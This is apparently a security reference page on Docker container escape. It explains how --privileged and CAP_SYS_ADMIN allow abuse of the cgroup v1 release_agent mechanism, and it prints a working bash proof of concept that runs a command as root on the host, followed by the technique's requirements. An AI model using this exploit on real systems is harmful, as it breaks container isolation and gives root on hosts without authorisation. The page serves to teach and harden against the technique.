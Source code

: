 Running a Docker container with `--privileged` or dangerous capabilities allows privileged operations. 

> The `--privileged` flag gives all [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html) to the container, and it also lifts all the limitations enforced by the device cgroup controller. In other words, the container can then do almost everything that the host can do. 

# CAP_SYS_ADMIN

[CAP_SYS_ADMIN](https://man7.org/linux/man-pages/man7/capabilities.7.html) is largely a catchall capability, it can easily lead to additional capabilities or full root (typically access to all capabilities). `CAP_SYS_ADMIN` is required to perform a range of administrative operations, which is difficult to drop from containers if privileged operations are performed within the container. Retaining this capability is often necessary for containers which mimic entire systems versus individual application containers which can be more restrictive.

## Abusing usermode helper API

Privileged containers can register usermode application helpers that are executed in the kernel context, for more information on invoking user-space applications from kernel see [here](https://developer.ibm.com/technologies/linux/articles/l-user-space-apps/).

The [@_fel1x](https://twitter.com/_fel1x/status/1151487051986087936) escape technique is based on abusing the functionality of the `notify_on_release` feature in cgroups v1 to run the exploit as a fully privileged root user.

Here is a version of the PoC that launches `ps` on the host:

```bash
# Finds + enables a cgroup release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# Enables notify_on_release in the cgroup
mkdir -p $d/w; echo 1 > $d/w/notify_on_release
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent
# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c
# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1
# Reads the output
cat /o
```

### Requirements to use this technique

In fact, `--privileged` provides far more permissions than needed to escape a Docker container via this method. In reality, the "only" requirements are:
- You must be running as root inside the container.
- The container must be run with the `CAP_SYS_ADMIN` Linux capability.
- The container must lack an AppArmor profile, or otherwise allow the mount syscall.
- The cgroup v1 virtual filesystem must be mounted read-write inside the container.
